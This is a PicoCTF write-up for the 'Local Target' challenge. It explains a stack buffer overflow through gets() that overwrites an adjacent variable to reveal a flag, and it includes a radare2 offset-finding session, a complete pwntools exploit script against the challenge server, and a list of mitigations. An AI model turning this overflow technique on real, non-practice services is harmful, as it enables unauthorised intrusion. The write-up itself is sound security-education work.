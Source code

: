 ## 📜 PicoCTF Local Target

### 📁 Challenge Name

`Local Target – PicoCTF`

---

### 📄 Description

The binary asks for a string input and checks if a variable `num` is equal to `65`. If it is, it prints `You win!` and then displays the contents of `flag.txt`. However, `num` is initialized to `64`. So our goal is to **exploit a buffer overflow** to overwrite `num` with the value `65`.

---

### 🔍 Source Code Summary

```c
char input[16];
int num = 64;

gets(input); // Vulnerable: no bounds checking

if (num == 65) {
    fopen("flag.txt", "r");
    // read and print flag
}
```

* The vulnerability lies in `gets()`, which does not check the length of input, allowing us to overflow `input` and reach `num`.

---

### 🧠 Exploitation Plan

* `input` is a 16-byte buffer.
* `num` is an `int`, so we need to overwrite 4 bytes.
* The goal is to overflow the buffer to change `num` from `64` to `65`.

Through testing (or using r2), we determined:

```bash
[0x00401236]> db 0x0040129a
[0x00401236]> dc
Enter a string: AAABAACAADAAEAAFAAGAAHAAIAAJAA

num is 1245790537
INFO: hit breakpoint at: 0x40129a

[0x0040129a]> wopO 0x000041414a414149
24

```


* **Offset to `num` = 24 bytes**

So the final payload becomes:

```python
b'A' * 24 + p32(65)
```

---

### 🧪 Exploit Script

```python
from pwn import *

context.binary = './local-target'
context.log_level = 'info'

LOCAL = False  # Set to True for local testing

if LOCAL:
    p = process('./local-target')
else:
    p = remote('saturn.picoctf.net', 51350)

payload = b'A' * 24 + p32(65)

p.sendlineafter("Enter a string: ", payload)
print(p.recvall().decode())
```

---

### ✅ Result

![result](./img/result.png)


---

### 🛡️ Mitigations

In a real-world binary, the following protections would stop this attack:

* **Stack Canaries**: would detect overwrites.
* **Bounds-checking functions** (`fgets`, `read`) instead of `gets`.
* **ASLR/PIE**: would make memory layout less predictable.
* **DEP/NX**: would prevent execution in certain memory segments (though not relevant here since we're not executing shellcode).

---

### Lessons Learned

* Always avoid unsafe functions like `gets()`.
* Buffer overflows can corrupt nearby variables (not just return addresses).
* Exploiting structure layout is as important as shellcode in CTFs.

---

